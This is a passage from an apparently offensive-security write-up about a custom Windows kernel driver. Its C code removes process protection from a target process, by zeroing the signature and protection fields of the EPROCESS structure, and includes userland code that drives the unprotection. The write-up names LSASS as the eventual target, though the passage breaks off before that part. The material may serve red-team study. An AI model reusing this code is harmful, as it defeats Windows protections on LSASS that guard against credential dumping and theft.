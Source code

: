 Using a PID passed by userland on the command to attach, the driver reads the Request struct from IRP shown above, and pulls the process handle.  This allows us to find pointers to the `EPROCESS` struct and the `PROCESS_PROTECTION_INFO` struct.

Then at the end of every IOCTL we call `IoCompleteRequest`.

## Unprotect

You can see in the `driver::attach` code segment above, we're defining `target_process` and `psProtection` as static variables.  They wont change after they're found the first time.  We simply call back to the `psProtection` struct which was populated during the attach process and set the correct values to unprotect our process:

```c
case codes::unprotect:
	if (target_process != nullptr && psProtection != nullptr) {
		psProtection->SignatureLevel = 0;
		psProtection->SectionSignatureLevel = 0;
		psProtection->Protection.Type = 0; // accessing Type from the PS_PROTECTION struct
		psProtection->Protection.Signer = 0; // same thing with Signer
		debug_printer("Removed signature and protection...\n");
		status = STATUS_SUCCESS;

	}
	break;
```


# Userland Code
## Driver Setup

Now with the process unprotected, we're ready to make the jump into userland!  We'll get into Lsass functionality soon but first we'll quickly cover setting up our driver:

```c
int main(int argc, wchar_t* argv[]) {
	//Driver stuf...
	const HANDLE hDriver = CreateFile(L"\\\\.\\noah", GENERIC_READ, 0, nullptr, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, nullptr);
	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("ERROR W DRIVER HANDLE");
		return 1;
	}
	DWORD TargetPID;
	HANDLE hTarget;
	if (!GetRemoteProcessHandle(&hTarget, &TargetPID)) {
		printf("Failed to get process handle!\n");
		return 0;
	}
	PVOID pERPROCESS = NULL;
	//Driver is attaching to target process via PID.
	if (driver::attachToProcess(TargetPID, hDriver) == true) {
		printf("Attached!\n");
	}
	//Driver is now attached and we need to parse through process memory.

	if (driver::unprotect(hDriver) == true) {
		printf("Removed protections from target process...\n");
	}
	...
```
